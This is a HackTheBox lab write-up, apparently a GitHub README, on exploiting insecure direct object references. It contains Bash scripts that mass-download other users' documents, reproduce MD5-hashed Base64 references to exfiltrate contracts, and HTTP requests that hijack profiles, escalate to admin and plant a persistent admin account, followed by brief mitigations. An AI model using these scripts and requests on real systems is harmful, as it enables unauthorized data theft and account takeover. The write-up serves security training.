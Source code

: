 # HTB-Writeup-Insecure-Direct-Object-References
HackTheBox Writeup:  Mass IDOR Enumeration, API exploitation, and privilege escalation.

By Ramyar Daneshgar 

This document presents a highly detailed technical analysis of **Insecure Direct Object Reference (IDOR) vulnerabilities** exploited within a HackTheBox web application. My methodology entailed **systematic mass enumeration**, **bypassing encoded object references**, and **escalating privileges via insecure API endpoints**. The approach leveraged **cybersecurity principles**, including **parameter fuzzing, access control bypass techniques, and API manipulation**, to achieve full compromise of the application.

---

## **1. Mass IDOR Enumeration**

### **Identification and Initial Assessment**
Upon initial reconnaissance, I identified a web endpoint that exposed user-specific document access through a **query parameterized HTTP GET request**:
```http
http://SERVER_IP:PORT/documents.php?uid=1
```
Observing the **direct object reference (uid=1)** within the URL suggested a potential IDOR vulnerability. I manually altered the **uid** value to test whether access control validation was being enforced at the backend:
```http
http://SERVER_IP:PORT/documents.php?uid=2
```
Upon executing the modified request, the application returned documents belonging to another user, confirming an **authorization bypass**.

### **Pattern Recognition and Forced Browsing Analysis**
Further investigation of the document structure revealed that filenames followed a consistent pattern:
```html
<li><a href='/documents/Invoice_2_08_2020.pdf'>Invoice</a></li>
<li><a href='/documents/Report_2_12_2020.pdf'>Report</a></li>
```
The **predictability of filenames** indicated susceptibility to a **forced browsing attack**, wherein systematically altering file names could lead to unauthorized file retrieval.

### **Automating Mass Enumeration**
To efficiently extract all accessible files, I constructed a **Bash-based enumeration script**:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..100}; do  # Iterate through user IDs
    for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
        wget -q $url/$link  # Download each document
    done
done
```
#### **Results:**
- Successfully retrieved documents from multiple unauthorized accounts.
- Confirmed **backend access control failure** due to improper enforcement of role-based validation.

---

## **2. Bypassing Encoded Object References**

### **Encoded Reference Discovery**
While examining API responses, I discovered that some files were referenced using **hashed identifiers** rather than sequential numerical values. A request to retrieve a contract file appeared as follows:
```http
POST /download.php
Content-Type: application/x-www-form-urlencoded

contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
This suggested an attempt at **Secure Direct Object Referencing (SDOR)**, intended to prevent IDOR exploitation by obscuring object references. However, the implementation relied on **MD5 hashing**, which is inherently predictable and reversible given knowledge of the input format.

### **Reverse Engineering the Hashing Mechanism**
Decompiling JavaScript within the web client revealed the hashing logic:
```js
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
I identified that the application processed identifiers as follows:
1. **Base64 encoding the UID** (`btoa(uid)`).
2. **Computing an MD5 hash** of the encoded value (`CryptoJS.MD5()`).

### **Hash Generation and Exploitation**
Utilizing this knowledge, I computed **valid object references** dynamically:
```bash
for i in {1..100}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -'
done
```
### **Automated Data Exfiltration**
With valid hashed identifiers generated, I deployed a **Bash-based mass retrieval exploit**:
```bash
#!/bin/bash

for i in {1..100}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done
```
#### **Results:**
- Successfully retrieved all **restricted contract files**.
- Confirmed **weak encoding mechanisms** that provided no true security against enumeration attacks.

---

## **3. API Exploitation and Privilege Escalation**

### **Intercepting API Requests**
I monitored API traffic using **Burp Suite** and identified a **PUT request modifying user profiles**:
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb"
}
```
The critical observation was that **authorization control was dependent on a client-side cookie (`role=employee`)**, indicating a **severe security flaw**.

### **Privilege Escalation via API Manipulation**
#### ** Unauthorized User Modification**
I modified a request to **edit another user’s profile**:
```http
PUT /profile/api.php/profile/2
Content-Type: application/json
Cookie: role=employee

{
    "uid": 2,
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "full_name": "Compromised User",
    "email": "attacker@employees.htb"
}
```
 **Impact:** Enabled password reset takeover of the target account.

#### ** Escalating Privileges to Administrator**
```http
PUT /profile/api.php/profile/1
Content-Type: application/json
Cookie: role=employee

{
    "uid": 1,
    "role": "web_admin"
}
```
 **Effect:** Elevated my privileges to **administrator**.

#### **Creating a Persistent Admin Account**
```http
POST /profile/api.php/profile
Content-Type: application/json
Cookie: role=web_admin

{
    "uid": 100,
    "role": "web_admin",
    "full_name": "Persistent Attacker",
    "email": "attacker@employees.htb"
}
```
 **Effect:** Established an **admin foothold**, ensuring persistent access.

---

## **4. Mitigation Strategies**

| **Vulnerability** | **Recommended Mitigation** |
|-------------------|----------------------------|
| **Mass IDOR Enumeration** | Enforce **Role-Based Access Control (RBAC)** and **strict backend validation**. |
| **Bypassing Encoded References** | Replace **predictable hashes** with **cryptographically secure UUIDs**. |
| **Insecure API Authorization** | Implement **server-side access control validation**, eliminating reliance on **client-side roles**. |


